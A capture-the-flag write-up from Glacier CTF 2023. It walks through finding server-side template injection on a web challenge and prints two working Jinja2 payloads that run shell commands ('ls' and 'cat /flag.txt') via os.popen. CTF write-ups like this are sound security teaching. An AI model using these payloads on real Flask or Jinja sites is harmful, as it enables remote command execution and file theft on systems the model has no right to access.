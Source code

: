 ```yaml
---
layout: post
title: Glacier CTF 2023
date: '2023-11-25 10:44:23 +0300'
image: /assets/img/cover_images/46.png
categories: [CTF, Glacier CTF 2023]
---
```


> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
author: Chr0x6eOs
{: .prompt-info }

We open the website and there is nothing interesting and so we try to check out the other projects 

![img-description](/assets/img/glacier-ctf-2023/1.png)

We are brought to this page and immediately what pops in my brain is SSTI

![img-description](/assets/img/glacier-ctf-2023/2.png)

I try injecting something to see the changes and indeed the website has an SSTI

![img-description](/assets/img/glacier-ctf-2023/3.png)

Next let's check what's in the / directory and we see the file flag.txt using the following payload

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cd / && ls')['read']()}}{% endraw %}
```


![img-description](/assets/img/glacier-ctf-2023/4.png)

Next we create a payload to read the flag.txt file

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag.txt')['read']()}}{% endraw %}
```

![img-description](/assets/img/glacier-ctf-2023/5.png)

